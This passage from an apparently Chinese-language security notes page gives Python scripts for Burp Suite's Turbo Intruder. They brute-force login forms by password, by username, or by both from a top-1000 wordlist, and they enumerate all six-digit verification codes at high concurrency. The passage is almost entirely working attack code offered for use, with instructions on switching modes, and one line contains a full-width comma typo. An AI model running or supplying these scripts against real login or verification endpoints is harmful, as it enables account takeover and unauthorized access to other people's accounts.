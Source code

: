 ①爆破密码②爆破账号③同时爆破账号密码

<div class="box-warning" markdown="1">
<div class="title"> 注意 </div>
使用一个模式就注释掉其他模式；字典的更改；同时爆破账号密码时，记得都要添加%s
</div>

~~~python
from urllib import quote

def password_brute(target,engine):
  for word in open(r'D:\Bolg\top1000.txt'):
        engine.queue(target.req, quote(word.rstrip()))

def user_brute(target,engine):
  for word in open(r'D:\Bolg\top1000.txt'):
        engine.queue(target.req, quote(word.rstrip()))
 
def user_password_brute(target, engine):
  for password in open(r'D:\Bolg\top1000.txt'):
    for user in open(r'D:\Bolg\top1000.txt'):
            engine.queue(target.req， [quote(user.rstrip()),quote(password.rstrip())])

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
            concurrentConnections=30,
            requestsPerConnection=100,
            pipeline=False
            )
    #user_brute(target,engine)
    #password_brute(target,engine)
    user_password_brute(target,engine)

def handleResponse(req, interesting):
# currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status == 302:
       table.add(req)
~~~

#### (3)爆破验证码

~~~python
from itertools import product

def brute_veify_code(target, engine, length):
    pattern = '1234567890'
    for i in list(product(pattern, repeat=length)):
         code =  ''.join(i)
         engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
            concurrentConnections=30,
            requestsPerConnection=100,
            pipeline=True
            )
    brute_veify_code(target, engine, 6) #根据验证码位数修改


def handleResponse(req, interesting):
# currently available attributes are req.status, req.wordcount, req.length and req.response
  if 'error' not in req.response:
       table.add(req)
~~~
